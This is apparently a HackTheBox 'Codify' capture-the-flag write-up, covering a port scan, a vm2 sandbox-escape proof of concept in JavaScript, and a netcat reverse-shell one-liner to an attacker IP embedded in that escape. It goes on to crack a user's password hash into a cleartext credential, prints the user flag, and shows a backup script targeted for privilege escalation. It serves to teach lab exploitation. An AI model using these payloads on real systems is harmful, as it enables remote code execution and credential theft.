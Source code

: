 # Codify
> Write-up author: jon-brandy | Lesson learned: vm2 exploitations, 

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ed060495-9bbf-4521-8586-e52f9f08aa52)

> PORT SCANNNING:

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.239 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-18 00:36 PST
Warning: 10.10.11.239 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.239
Host is up (0.033s latency).
Not shown: 53951 closed tcp ports (conn-refused), 11581 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 275.72 seconds
```

1. Based from the nmap results, we can identified that the machine runs a web application, opens ssh login and using node.js framework for the webapp.

> WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/95dde7ef-9cee-480e-b93f-0a705d53d68d)


2. Reading the **About Us** page, shows us the door to exploit this web app, the `vm2 (virtual machine 2)` vuln.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/31abcec5-c414-408a-b0eb-170397adf10b)


3. Searching on the internet about vm2 vulns, shall resulting to this:

```
VM2 --> Is a library that provides a secure and sandboxed environment for executing JavaScript code. Primarily used in server side
environments such as Node-JS.

https://www.uptycs.com/blog/exploitable-vm2-vulnerabilities (the newest one --> 2023).
```

4. Also found a github POC.

```
https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0d9e4426-3a8a-4331-8efd-6e217c3944e9)


```txt
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```


5. To test the POC, we can try by sending --> `ls ./`

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/edbefc30-e90b-43de-9bb7-1f2c1cd21182)


6. Great it executes our bash command, hence let's put our reverse shell payload there.

> succeed payload

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 1337 >/tmp/f
```

> RESULT

```txt
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 1337 >/tmp/f');
}
`

console.log(vm.run(code));
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6bfefadb-8436-41fa-9b1d-f3f59fd34bd2)


7. Notice that there is a user named **joshua** and we can't cd there.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9c1ec6bd-8f41-47e6-b0ab-00071936ae8a)


8. Now we need to enumerate dirs and files, our objective should be a config file or .db file.
9. Long story short, found tickets.db at --> `/var/www/contacts`.

> FOUND JOSHUA CRED

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/01d4894f-6888-49be-bc35-a6f23e924dd4)


10. Let's crack the hash using rockyou.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b6da0163-21cd-47dd-8124-6e2c68ab4850)

#### NOTES: If you want to list all available formats, simply run --> john --list-formats

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/126301b7-5671-40f1-a3c0-6db8763d1213)


11. Great! Now we have joshua cred --> `joshua:spongebob1`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ef4eba08-3270-468b-a430-137ca16ea7f4)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fcbec800-39a2-48a2-8fbf-59ee500e1b39)


## USER FLAG

```
cf933e03df80d5ec0e913a06dea26830
```


12. Checking sudo permission for **joshua** resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d41fdbef-d8a0-4162-b4e8-6eb0d1124ed3)


```
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
